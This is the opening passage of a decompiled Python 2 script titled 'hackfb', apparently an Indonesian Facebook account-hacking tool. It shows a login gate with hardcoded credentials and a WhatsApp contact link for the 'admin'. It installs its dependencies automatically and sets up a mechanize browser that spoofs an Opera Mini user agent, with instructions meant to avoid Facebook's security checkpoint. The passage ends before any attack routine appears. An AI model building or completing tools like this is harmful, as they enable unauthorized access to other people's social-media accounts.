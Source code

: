 # hackfb
hackfb
#decompiled by PDM31
import os, sys
print '\x1b[1;32mMasukan ID: artikelcara10 dan Password: ac10hacks untuk Login dan jangan lupa login facebook di OperaMini dulu sebelum login agar tidak CekPoint'
print '\x1b[1;32mSilahkan Login '
import os, sys

def wa():
    os.system('xdg-open https://api.whatsapp.com/send?phone=+6281291977644&text=Assalamualaikum')


def restart():
    ngulang = sys.executable
    os.execl(ngulang, ngulang, *sys.argv)


user = raw_input('ID: ')
import getpass
sandi = raw_input('Password: ')
if sandi == 'ac10hacks' and user == 'artikelcara10':
    print 'Anda Telah Login'
    sys.exit
else:
    print 'Login GAGAL, Silahkan hubungi ADMIN'
    wa()
    restart()
import os, sys, time, datetime, random, hashlib, re, threading, json, getpass, urllib
from multiprocessing.pool import ThreadPool
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
else:
    try:
        import requests
    except ImportError:
        os.system('pip2 install requests')

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

def keluar():
    print '\x1b[1;91m[!] Keluar'
    os.sys.exit()
